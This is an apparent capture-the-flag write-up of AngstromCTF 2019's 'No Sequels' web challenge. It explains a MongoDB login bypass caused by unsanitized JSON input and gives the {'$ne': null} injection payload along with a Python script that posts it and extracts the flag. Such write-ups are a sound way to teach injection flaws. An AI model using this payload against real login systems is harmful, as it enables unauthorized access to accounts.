 ```yaml
---
title: "Angstromctf 2019 | No Sequels and No Sequels2 Web Writeup"
author: "CHERIEF Yassine (omega_coder)"
date: 2019-04-26T01:49:01+02:00
subtitle: "Mongodb Authentification bypass and Blind Injection"
tags: ["ctf", "nosql", "mongodb", "nosql-injection", "web", "writeup"]
categories: ["writeups", "security"]
---
```



This blog post contains the writeup for two challenges (No SEQUELS & No SEQUELS 2), because they are related.

So let's start with No SEQUELS first.

**Category:** Web  
**Points:** 50  

-----------------------------

## Challenge Description 
> The prequels sucked, and the sequels aren't much better, but at least we always have the [original trilogy](https://nosequels.2019.chall.actf.co).

> Hint said : *MongoDB is a safer alternative to SQL, right?*

#### What we can get from the informations stated above ?

- They are using MongoDB as a NoSQL engine.
- we can guess from hint that its a simple Auth bypass with MongoDB NoSQL injection.

We are presented a part of the source code of how the authentication happens.

![no_sequels_source_code](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1556371044/1_xKB1P9_JsMbdjYLkCsnHvw.png)

### Exaplanation

This simple authentication uses `JWT` (JSON Web Tokens), trying to hack the token won't help because the JWT token is being signed with a `secret key` and we don't know the key actually.

After reading the code, this is clearly a NoSQL Injection because of unsanitized user input.

The following two lines show that the variables username and password are not sanitized by anyway.

```js
var user = req.body.username;
var pass = req.body.password;
```

One more thing to notice, the line below show that the body can be parser using json regarded that we supply some json input with `Content-Type: application/json`.

```js
app.use(bodyParser.json());
```

NoSQL databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional `SQL` syntax.

The unsanitisation of username and password will lead to NoSQL code injection.  

What would happen if we post the following JSON data:

```http
POST https://nosequels.2019.chall.actf.co HTTP/1.1
Content-Type: application/json
{
    "username": {"$ne": null},
    "password": {"$ne": null}
}
```

By Sending this payload the username & password will be parsed as so, thus the query being  

```javascript
var query = {
    username: {"$ne": null};
    password: {"$ne": null};
}
    
```

Now, executing the line below from the app source code will return the first row, and we will be authenticated.  

```javascript
db.collection('users').findOne(query, function(err, user) {
    if (!user) {
        res.send("Wrong username or password");
        return 
    }
    res.cookie('token', jwt.sign({name: user.username, authnticated: true}, secret));
    res.redirect("/site");
});
```
Let's write a script to do the work for us, and get that first `FLAG`.

We will be using python requests module.  


```python
import requests
import re
URL = "https://nosequels.2019.chall.actf.co/login"
payload = '{"username": {"$ne": null}, "password": {"$ne": null}}'
cookies = {"token": "still_dont_know"} 
# we could have done it manually, and replaced the token with
# the token that your browser got for you

# init session
session = requests.Session()
# set re expression for token in headers
jwt_token_re = re.compile(r"token=(.*);")
# Getting the token for the first time

token_req = session.get(URL)
if token_req.status_code == 200:
    m = re.search(jwt_token_re, token_req.headers["Set-Cookie"])
    if m:
        # update token in cookies dict
        cookies["token"] = str(m.group(1))

    # Now let's send the json payload alongside the cookie we got above.
    # we will leave requests default behaviour to follow redirects which will redirect us to /site

flag_re = re.compile(r"actf{.*}")

# make request with mallicious payload

req = session.post(URL, json=payload, cookies=cookies, verify=False)
# verify=False is just for HTTPS connection

if req.status_code == 200:
    # FLAG match
    m = re.search(flag_re, req.text)
    if m:
        print("1st FLAG: ", m.group(0)) 
```

**`FLAG is : actf{no_sql_doesn’t_mean_no_vuln}`**




















